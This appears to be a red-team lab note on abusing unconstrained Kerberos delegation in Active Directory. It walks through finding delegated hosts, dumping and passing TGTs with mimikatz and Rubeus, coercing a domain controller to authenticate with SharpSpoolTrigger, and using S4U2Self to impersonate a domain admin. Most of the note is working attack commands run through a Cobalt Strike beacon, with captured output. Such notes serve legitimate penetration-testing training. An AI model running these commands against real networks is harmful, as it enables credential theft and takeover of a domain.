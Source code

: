 ## Overview

- Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user;
- Usually, this privilege is given to computers (in this lab, it is assigned to a computer IIS01) running services like IIS, MSSQL, etc.;
- Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf;
- When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory;
- The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.

Essentially this looks like so: `User` --- authenticates to ---> `IIS server` ---> authenticates on behalf of the user ---> `DB server`


## Find
```
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```
![[image 2.png]]
or
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```
![[Pasted image 20240917090836.png]]
  Domain Controllers are always permitted for unconstrained delegation.
## Execution
mimikatz
```
mimikatz # sekurlsa::tickets
```
```
mimikatz::tickets /export
```
```
mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```
```
klist 
dir \\dc01\c$
```

Rubeus
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=

steal_token 1540
```
We can also force the user to log and get his ticket chached
Monitor
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
```
SharpSpoolTrigger ( DC-2 target, WEB listener)
```
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io
```
Rubeus will then capture the ticket.
```
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFuj[...]lDLklP
```
**S4U2Self Abuse** because this is a local admin, not DA
if we tried the other way:
```
beacon> ls \\dc-2.dev.cyberbotic.io\c$
[-] could not open \\dc-2.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```
We need to impersonate a user we know is local admin (f.e domain admin (nlamb in this case))
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

steal_token
```

